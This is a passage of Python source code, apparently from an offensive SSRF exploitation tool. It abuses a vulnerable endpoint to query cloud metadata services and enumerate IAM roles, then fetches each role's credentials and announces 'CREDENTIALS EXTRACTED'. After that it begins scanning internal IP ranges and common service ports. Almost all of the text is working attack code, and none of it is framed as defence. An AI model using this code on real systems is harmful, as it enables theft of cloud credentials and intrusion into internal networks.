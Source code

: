 ```python
                            'metadata_url': metadata_url,
                            'response': response.text,
                            'success': True
                        })
                        print(f"    ✓ {cloud_provider.upper()} metadata accessed: {metadata_url}")
                        
                        # If this is IAM credentials endpoint, try to extract role names
                        if 'security-credentials' in metadata_url and response.text:
                            role_names = response.text.strip().split('\n')
                            for role_name in role_names:
                                if role_name.strip():
                                    cred_url = f"{metadata_url}{role_name.strip()}"
                                    cred_payload = {ssrf_endpoint['endpoint']['param']: cred_url}
                                    
                                    if 'trigger_param' in ssrf_endpoint['endpoint']:
                                        cred_payload[ssrf_endpoint['endpoint']['trigger_param']] = True
                                    
                                    cred_response = self.session.request(
                                        ssrf_endpoint['endpoint']['method'],
                                        f"{self.base_url}{ssrf_endpoint['endpoint']['url']}",
                                        json=cred_payload,
                                        timeout=15
                                    )
                                    
                                    if cred_response.status_code == 200:
                                        results[cloud_provider].append({
                                            'metadata_url': cred_url,
                                            'response': cred_response.text,
                                            'credentials': True,
                                            'role_name': role_name.strip()
                                        })
                                        print(f"    🚨 CREDENTIALS EXTRACTED for role: {role_name.strip()}")
                    
                except Exception as e:
                    print(f"    ✗ Error accessing {metadata_url}: {e}")
        
        return results
    
    def scan_internal_network(self, ssrf_endpoint):
        """Scan internal network using SSRF"""
        print(f"\n[+] Scanning internal network via SSRF...")
        
        # Common internal IP ranges and ports
        internal_ranges = [
            '192.168.1.{}',
            '192.168.0.{}',
            '10.0.0.{}',
            '172.16.0.{}',
            '127.0.0.{}'
        ]
        
        common_ports = [22, 80, 443, 3306, 5432, 6379, 8080, 9200, 27017]
        
        results = []
        
        # Scan localhost first
        print("  Scanning localhost services...")
        for port in common_ports:
            target_url = f"http://localhost:{port}"
            
            try:
```